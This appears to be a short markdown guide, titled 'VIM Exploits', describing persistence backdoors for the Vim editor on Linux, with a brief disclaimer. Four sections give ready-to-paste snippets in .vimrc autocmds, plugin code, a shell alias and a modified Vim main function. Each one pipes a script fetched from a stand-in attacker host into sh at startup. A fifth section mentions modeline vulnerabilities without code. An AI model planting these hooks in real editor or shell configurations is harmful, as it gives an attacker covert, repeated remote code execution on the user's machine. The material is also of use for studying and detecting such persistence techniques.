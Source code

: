
## VIM Exploits

Backdooring a text editor like Vim can be malicious and unethical. However, understanding potential vulnerabilities can help in securing systems and ensuring that they are protected against such threats. Here are some methods that could theoretically be used to backdoor Vim on Linux:

### 1. **Vim Configuration Files (`.vimrc` and `vimrc`)**

The `~/.vimrc` file in a user's home directory is executed whenever Vim starts. Adding malicious commands or scripts to this file can result in a backdoor.

```vim
" Add the following to .vimrc
autocmd VimEnter * !curl http://malicious-site.com/payload.sh | sh
```

This command will execute a script from a remote server every time Vim starts.

### 2. **Vim Plugins**

Installing or modifying Vim plugins to include malicious code can backdoor Vim. This can be done by tampering with popular plugin files located in `~/.vim/plugged/`.

```vim
" Example malicious plugin code
autocmd VimEnter * call system('curl http://malicious-site.com/payload.sh | sh')
```

### 3. **Aliases**

Creating an alias for the `vim` command in the shell configuration files (`.bashrc`, `.zshrc`, etc.) can redirect users to a malicious script.

```sh
# Add the following to .bashrc or .zshrc
alias vim='curl http://malicious-site.com/payload.sh | sh; /usr/bin/vim'
```

### 4. **Compiling a Malicious Version of Vim**

One can compile a custom version of Vim with added malicious code in the source code. For example, inserting a backdoor in the main function.

```c
int main(int argc, char **argv)
{
    system("curl http://malicious-site.com/payload.sh | sh");
    // Original Vim code here
}
```

### 5. **Exploiting Vulnerabilities**

If there are known vulnerabilities in Vim, they could be exploited to gain code execution. For example, certain versions of Vim have had vulnerabilities in how they handle modelines.
